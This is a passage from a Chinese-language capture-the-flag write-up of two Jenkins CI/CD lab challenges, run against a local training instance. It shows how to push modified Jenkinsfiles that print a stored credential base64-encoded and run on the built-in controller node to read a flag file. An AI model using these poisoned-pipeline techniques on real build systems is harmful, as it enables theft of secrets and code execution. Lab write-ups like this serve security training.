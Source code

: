 该令牌具有存储库的可写权限，使用此令牌clone存储库：

```plain
git clone http://5d3ed5564341d5060c8524c41fe03507e296ca46@127.0.0.1:3000/Wonderland/caterpillar.git
```

然后就是修改成读取flag的pipeline：

```plain
stage('deploy') {
    steps {
        withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'flag2', passwordVariable: 'TOKEN')]) {
            sh 'echo $TOKEN | base64'
        }
    }
}
```

然后push过去就可以执行。

## Cheshire Cat

题目中说All jobs in your victim’s Jenkins instance run on dedicated nodes, but that’s not good enough for you.因此暗示了可能要指定node来执行。考虑到一般执行是在agent1，因此应该制定在built-in node上执行。在网上查一下就知道默认的built-in node的label是`built-in`。

git clone下来之后修改`Jenkinsfile`：

```plain
pipeline {
    agent {label 'built-in'}
    environment {
        PROJECT = "sanic"
    }

    stages {

        stage ('Unit Tests') {
            steps {
                sh "cat ~/flag5.txt|base64"
            }
        }
    }

    post {
        always {
            cleanWs()
        }
    }
}
```

指定agent是`built-in`且从文件系统中读取flag。

然后同样的流程直到pull request，获得flag：
